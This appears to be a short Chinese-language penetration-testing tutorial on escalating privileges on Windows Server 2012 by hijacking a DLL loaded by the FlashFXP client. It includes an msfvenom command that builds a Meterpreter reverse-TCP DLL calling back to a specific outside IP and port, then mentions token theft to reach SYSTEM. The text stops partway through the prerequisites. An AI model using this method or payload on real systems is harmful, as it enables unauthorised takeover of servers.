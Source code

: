 

Win2012-DLL劫持提权应用配合MSF-web权限

原理:Windows程序启动的时候需要DLL,如果这些DLL 不存在,则可以通过在应用程序要查找的位置放置恶意DLL来提权。通常,Windows应用程序有其预先定义好的搜索DLL的路径,它会根据下面的顺序进行搜索:

1.应用程序加载的目录

2.C:\Windows\system32

3.C:\Windows\system

4.C:\windows

5.当前工作目录Current Working Directory,CWD

6.在PATH环境变量的目录(先系统后用户)



过程:信息收集(搜集服务器上其他的第三方应用)-进程调试(分析这个程序启动时调用那些dll)-制作dll并上传-替换dll-启动应用后成功

msfvenom -p windows/meterpreter/reverse_tcp

lhost=101.37.169.46 lport=6677 -f ddl >/opt/xiaodi.dll



收集信息

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawhIHG0PnnKO5ZXqzSTibEoC5whCDzXWEI4LI2ZrXicGkeZkK4ia0KbWkTA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)





发现一个flashfxp第三方软件

进程调试

在网上下载flashfxp软件

用火绒剑来调试软件

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawnjAEFau9L8cX0f8lCkxMaQGejITyERx0Y9VRLYB9u9kkOt1iaHr0HLw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



寻找非系统文件

生成dll

使用MSF生产dll,使用上述命令

替换dll,MSF监听,当软件执行时调用dll,反弹成功



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw1tNe3nic9CWoH88hUjX2tKMuo8stP1MfZuPKhhEZYZnOmr6zItguF7w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



然后再使用令牌窃取提权至system

满足条件:

y有第三方软件

